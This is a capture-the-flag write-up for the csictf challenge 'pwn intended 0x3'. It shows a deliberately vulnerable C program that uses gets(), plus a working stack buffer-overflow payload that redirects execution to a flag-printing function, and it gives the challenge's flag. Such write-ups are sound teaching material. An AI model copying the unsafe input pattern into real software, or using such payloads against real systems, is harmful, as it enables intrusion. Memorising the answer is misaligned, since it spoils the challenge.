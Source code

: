 # pwn intended 0x3

Author: [roerohan](https://github.com/roerohan)

## Description

Buffer overflow to overwrite a variable in the same function.

## Requirements

- Basic Knowledge of Buffer Overflow

## Sources

- [pwn-intended-0x3](./pwn-intended-0x3): Binary
- [pwn-intended-0x3.c](./pwn-intended-0x3.c)

```c
#include <stdio.h>

int main() {
    char teleport[30];
    puts("Welcome to csictf! Time to teleport again.");
    gets(teleport);
}

int flag() {
    puts("Well, that was quick. Here's your flag:");
    system("cat flag.txt");
}
```

```
Teleportation is not possible, or is it?
```

## Exploit

We have to run the `flag()` function by overwriting the `saved rip` of the `main()` function.
<br />

We first find the address of the `flag` function. We can use `gdb` or `objdump` for the same.

```bash
gdb-peda$ pdisas flag
Dump of assembler code for function flag:
   0x0000000000401182 <+0>:     push   rbp
   0x0000000000401183 <+1>:     mov    rbp,rsp
   0x0000000000401186 <+4>:     lea    rdi,[rip+0xeab]        # 0x402038
   0x000000000040118d <+11>:    call   0x401030 <puts@plt>
   0x0000000000401192 <+16>:    lea    rdi,[rip+0xec7]        # 0x402060
   0x0000000000401199 <+23>:    call   0x401040 <system@plt>
   0x000000000040119e <+28>:    mov    edi,0x0
   0x00000000004011a3 <+33>:    call   0x401060 <exit@plt>
End of assembler dump.
```

**OR**

```bash
$ objdump -d ./pwn-intended-0x3 | grep flag
0000000000401182 <flag>:
```

The address of the flag `0x0000000000401182` function can now be written in little endian and passed into our payload, along with 32 random characters to fill the stack, and 8 more the overwrite the `saved rbp`.

```bash
$ python2 -c "print 'a'*32 + 'b'*8  + '\x82\x11\x40\x00\x00\x00\x00\x00'" | ./pwn-intended-0x3
Welcome to csictf! Time to teleport again.
Well, that was quick. Here's your flag:
csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}% 
```

The flag is:

```
csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
```
